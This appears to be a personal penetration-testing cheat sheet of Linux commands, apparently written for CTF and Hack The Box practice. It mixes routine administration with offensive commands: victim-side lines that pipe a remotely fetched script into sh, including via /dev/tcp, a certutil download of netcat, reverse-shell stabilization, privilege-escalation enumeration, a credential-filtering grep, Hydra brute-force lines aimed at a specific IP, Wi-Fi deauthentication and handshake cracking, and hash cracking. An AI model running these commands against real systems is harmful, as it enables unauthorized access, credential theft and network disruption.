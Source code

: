 My Quick Linux Command List
you can modify the commands as per your requirements please observer the command before copy paste as there is explanation after commands in brackets, Thank you

Virtual space inside terminal:
python3 -m venv env 
source env/bin/activate
Apache server:
sudo systemctl start apache2
sudo systemctl stop apache2
sudo systemctl restart apache2
enable systemctl apache2
sudo nano /etc/apache2/apache2.conf (apache config file to change port and other things)
Gobuster subdomain Enumeration:
gobuster vhost -u example.com -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 4 --append-domain
gobuster dns -d example.com -w /usr/share/seclists/Discovery/DNS/subdomains=top1million-5000.txt -t 10 
Dirsearch directory find:
dirsearch -u http://url.com/ -e*
gobuster dir -u http://url.com/ -w wordlist -t 10
Host file direct entry:
echo "10.10.11.254 demo.skyfall.htb" | sudo tee -a /etc/hosts
Locating scripts in unix:
locate *.nse | grep <servicename> 
FOr stable shell and internal machine to machine download:
python3 -c "import pty;pty.spawn('/bin/bash')"
certutil -urlcache -f http://10.10.14.154:8888/nc64.exe nc64.exe #(windows)
wget http://ipaddress:portnumber/filename #(for both linux and windows)
Privilege Escalation common Commands:
whoami
ls -la
uname -a
cat /proc/version
id 
history
sudo -l
cat /etc/crontab
find / -perm -u=s -type f 2>/dev/null
netstat -tuln
getcap -r / 2>/dev/null
filecap

Linepeas Installation on Target with and without internet
# From github
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Without curl
python -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"

python3 -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"
# Local network
sudo python3 -m http.server 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim
ligolo-ng port forwarding tool commands:
sudo ip tuntap add user root mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert (for hacking ctf machines)
./proxy -autocert (for real world)
./agent -connect 10.10.16.35:11601 -ignore-cert (target machine use this command)
session (choose session or simply press senter)
start (use this command in ligolo)
sudo ip route add 240.0.0.1/32 dev ligolo (to route the local running services to our machine magic ip)
Port Forwarding using SSH
 ssh -L 8888:localhost:8080 rajesh@34.44.2.255 (with password)
 ssh -i private_key -L 8888:localhost:8080 username@targetip (with private key)
 (above syntax -L 8888(our machine port):localhost:8080(target machine localhost and ip to forward)
SSH RELATED:
nano /etc/ssh/sshd_config
cat /etc/passwd | cut -d: -f1  #(display all users in the machine)
sudo service ssh restart 
sudo passwd -S username
sudo passwd -u username
ssh kristi@10.10.10.247 -p 2222 -L 5555:localhost:5555 #(ssh portforwarding for adb in mobile)
for adding a new user:
sudo adduser cyber
sudo usermod -aG sudo cyber
nano /etc/sudoers    #(adding user to sudoers file to get su permission)
usrname  ALL=(ALL:ALL) ALL
searching and removing user from using sudo and giving file permissions:
sudo gpasswd -d username sudo (to remove sudo permisson of anyuser)
getent group sudo (to list the sudo users in sudo group)

nano /etc/sudoers    (adding user to sudoers file to get su permission)
username  ALL=(ALL:ALL) ALL (giving all executable permissions)

sudo chown -R kali:www-data html
sudo chmod -R 750 folder (to remove forbidden access)
sudo chmod g+w /var/www/html/*.php /var/www/html/*.html

sudo chmod 775 test.sh
sudo chown tennyson:tennyson test.sh
Stabilizing the reverse shell:
script /dev/null -c /bin/bash
CTRL + Z
stty raw -echo; fg
Then press Enter twice, and then enter:
export TERM=xterm
Converting ova to vmdk and other extensions:
tar xvf HF2019-Linux.ova #(unziping ova file)
./VBoxManage clonehd "S:\HF2019-Linux.ova\HF2019-Linux\HF2019-Linux-disk001.vdi" S:\HF2019-Linux.ova\vmdk\disk.vmdk --format VMDK
All cmds on extracting and compressig:
zip
zip archive.zip file1 file2 directory1
unzip archive.zip (to extract .zip)
tar compression
tar -cvf archive.tar file1 file2 directory1
tar -cvzf archive.tar.gz file1 file2 directory1
tar -cvjf archive.tar.bz2 file1 file2 directory1
tar -cvJf archive.tar.xz file1 file2 directory1
tar extraction
tar -xvf archive.tar
tar -xzvf archive.tar.gz
tar -xjvf archive.tar.bz2
tar -xJvf archive.tar.xz
gzip
gzip file.txt
gunzip file.txt.gz (to extract .gz)
bzip2
bzip2 file.txt
bunzip2 file.txt.bz2 (to extract .bz2)
xz file.txt
xz file.txt
unxz file.txt.xz (to extract .xz)
7z
7z a archive.7z file1 file2 directory1
7za x archive.7z (to extract .7z)

rar
rar a archive.rar file1 file2 directory1
unrar x archive.rar  (to extract .rar)
Grep filtering commands
grep -oP '(?<=^| )([0-9]{1,3}\.){3}[0-9]{1,3}(?= |$)'| sort | uniq  (filter ipaddress)
grep -Ev '^\s*https?://|.{41,}|^\s*$' | grep -E '[a-z0-9!@#$%^&*()-_=+{};:,.<>?]{5,}:[a-z0-9!@#$%^&*()-_=+{};:,.<>?]{5,}' | grep -v -e 'http://' -e 'https://' (filter credentails)
grep -ril 'username' /var/www/html (will show the files contains username)
find /var/www/html -type f -name "*.php" -exec grep -l 'username' {} + | xargs grep -l 'password'

Manual assigning of ipv4 to wlan0
ifconfig wlan0 192.168.1.7 netmask 255.255.255.0
Hash cracking:
John The Ripper (basic Format)
john -w=<wordlist> hash.txt
john --format=raw-md5 --wordlist=<wordlist> <hash_file>
john --format=bcrypt --wordlist=<wordlist> <hash_file>
john --format=raw-sha1 --wordlist=<wordlist> <hash_file>
john --format=raw-sha256 --wordlist=<wordlist> <hash_file>
hashcat (basic format)
hashcat -m 0 -a 0 <hash_file> <wordlist>  (md5 hashes)
hashcat -m 3200 -a 0 <hash_file> <wordlist> (bcrypt hashes)
hashcat -m 100 -a 0 <hash_file> <wordlist> (sha1 hashes)
hashcat -m 1400 -a 0 <hash_file> <wordlist> (sha 256 hashes)
FTP server:
apt install vsftpd
systemctl start vsftpd
systemctl enable vsftpd
systemctl status vsftpd
wireless hacking
sudo airmon-ng start wlan0 #(Put Wi-Fi adapter in monitor mode)
sudo airodump-ng wlan0mon #(Start capturing traffic:)
sudo airodump-ng -c [channel] --bssid [BSSID] -w outputfile wlan0mon #(Capture a handshake:)
sudo aireplay-ng -0 5 -a [BSSID] wlan0mon #(Deauthenticate a client:)
Crack the handshake:
sudo aircrack-ng -w wordlist.txt -b [BSSID] outputfile.cap 
aircrack-ng outputfile.cap #(Identify Handshake or get bssid)
aircrack-ng -w wordlist.txt outputfile.cap #(direct crack)
Hydra all brute force commands:
note "-P" capital for passwordlists if it is only single password use small "-p"
hydra -l <username> -P <passwords_file> <target_ip> ssh
hydra -l <username> -P <passwords_file> <target_ip> ftp
hydra -l <username> -P <passwords_file> <target_ip> mysql
hydra -l <username> -p <password> <ip> <service> -s <port>
hydra -V -f -P '/home/kali/rockyou.txt'  10.10.7.91 vnc (without username)
hydra -C <combinations.txt> <ip> <service>
hydra -l <username> -P <passwords_file> <target_url> http-post-form "<post_data>:<failure_string>" #(post form)
hydra -l <username> -P <passwords_file> <target_url> http-get #(get request login)
hydra -l <username> -P <passwords_file> <target_url> http-get-form "<login_url>:<form_field_names>:<failure_string>:<cookie_string>"
hydra -l admin -P '/home/kali/rockyou.txt' 34.170.40.47 -s 8080 http-post-form "/index.php:username=^USER^&password=^PASS^:Invalid username or password. Please try again."
wireshark packet filters:
Protocol Filters:
tcp: Filters TCP traffic.
udp: Filters UDP traffic.
icmp: Filters ICMP traffic.
http: Filters HTTP traffic.
dns: Filters DNS traffic.
arp: Filters ARP traffic.
smtp: Filters SMTP traffic.
ftp: Filters FTP traffic.
ssl: Filters SSL/TLS traffic.
ssh: Filters SSH traffic.
Address Filters:
ip.addr == x.x.x.x: Filters traffic for a specific IP address.
ip.src == x.x.x.x: Filters traffic with a specific source IP address.
ip.dst == x.x.x.x: Filters traffic with a specific destination IP address.
eth.addr == xx:xx:xx:xx:xx:xx: Filters traffic based on MAC address.
Port Filters:
tcp.port == xxxx: Filters TCP traffic on a specific port.
udp.port == xxxx: Filters UDP traffic on a specific port.
Logical Operators:
and: Logical AND operator.
or: Logical OR operator.
not: Logical NOT operator.
Comparisons:
==: Equals.
!=: Not equal.
>: Greater than.
<: Less than.
Range Filters:
ip.addr in x.x.x.x/y: Filters traffic within a specific IP address range.
tcp.port in {x, y, z}: Filters traffic on multiple TCP ports.
udp.port in {x, y, z}: Filters traffic on multiple UDP ports.
Display Filters:
frame.number == n: Filters by frame number.
frame.time_relative > n: Filters by time relative to the start of capture.
HTTP Filters:
http.request.method == "GET": Filters HTTP GET requests.
http.response.code == 200: Filters HTTP responses with status code 200.
http.host == "example.com": Filters HTTP traffic for a specific host.
DNS Filters:
dns.qry.name == "example.com": Filters DNS queries for a specific domain.
dns.resp.addr == x.x.x.x: Filters DNS responses with a specific IP address.
SSL/TLS Filters:
ssl.handshake: Filters SSL handshake packets.
ssl.record.content_type == 23: Filters SSL application data packets.
